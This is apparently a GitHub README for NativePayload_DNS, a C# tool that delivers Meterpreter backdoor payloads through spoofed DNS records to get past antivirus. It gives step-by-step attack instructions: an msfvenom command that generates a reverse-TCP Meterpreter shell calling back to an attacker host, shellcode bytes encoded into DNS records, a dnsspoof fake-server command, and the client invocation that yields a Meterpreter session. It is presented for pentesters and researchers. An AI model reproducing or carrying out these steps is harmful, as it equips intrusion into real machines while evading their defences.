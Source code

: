 //http://bobao.360.cn/learning/detail/3466.html  【技术分享】通过DNS传输后门来绕过杀软



[![Stage](https://img.shields.io/badge/Release-STABLE-brightgreen.svg)]()

# NativePayload_DNS
C# code for Backdoor Payloads transfer by DNS Traffic and Bypassing Anti-viruses

Published by Damon Mohammadbagher

Warning: this code Published to explaining Anti-Viruses Vulnerability for Pentesters and Security Researchers

for more information and step by step please Visit these links:

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.linkedin.com/pulse/bypassing-anti-viruses-transfer-backdoor-payloads-dns-mohammadbagher

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.peerlyst.com/posts/bypassing-anti-viruses-with-transfer-backdoor-payloads-by-dns-traffic-damon-mohammadbagher

Video Published by Damon Mohammadbagher (bbxc9x00x1f)

Bypassing Anti-Viruses with transfer Backdoor Payloads by DNS traffic
Video 1 :https://youtu.be/M4dbqRWRsUk

Bypassing AVs with NativePayload_DNS and Meterpreter_Payload_Detection
Video 2 : https://youtu.be/ngZl4PSfW6o
Video Description: Bypassing AVs with NativePayload_DNS.exe and Detecting Meterpreter Process by Meterpreter_Payload_Detection tool
 
 step 1:
 
 msfvenom C type payload in your kali linux
 
 msfvenom –-platform windows –arch x86_64 –p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.50 –f c > /root/Desktop/payload.txt
 
copy payloads from payload.txt file to dns.txt like this format:

root@kali:~# cat /root/Desktop/dns.txt

1.1.1.0 "0xfc0x480x830xe40xf00xe80xcc0x000x000x000x410x510x410x500x52.1.com"

1.1.1.1 "0x510x560x480x310xd20x650x480x8b0x520x600x480x8b0x520x180x48.1.com"

1.1.1.2 "0x8b0x520x200x480x8b0x720x500x480x0f0xb70x4a0x4a0x4d0x310xc9.1.com"

1.1.1.3 "0x480x310xc00xac0x3c0x610x7c0x020x2c0x200x410xc10xc90x0d0x41.1.com"

step 2: Make Fake DNS server in your kali linux

root@kali:~# dnsspoof -i eth0 -f /root/Desktop/dns.txt

 step 3:
 
 run code in client
 
 syntax: NativePayload_DNS.exe "1.1.1." 34 "192.168.1.50"
 
 finally you can bypass AVs and you have Meterpreter Session
 
 
 for more information and step by step please Visit these links:
 
Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.linkedin.com/pulse/bypassing-anti-viruses-transfer-backdoor-payloads-dns-mohammadbagher

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.peerlyst.com/posts/bypassing-anti-viruses-with-transfer-backdoor-payloads-by-dns-traffic-damon-mohammadbagher

 
 Related Tool: 
 
 C# code for Backdoor Payloads transfer by IPv6 Address (AAAA) records and DNS Traffic also Bypassing Anti-viruses 
 https://github.com/DamonMohammadbagher/NativePayload_IP6DNS
 
 Related link:
 
 Bypass all anti-viruses by Encrypted Payloads with C#
 
 https://www.linkedin.com/pulse/bypass-all-anti-viruses-encrypted-payloads-c-damon-mohammadbagher?trk=pulse_spock-articles


 
 
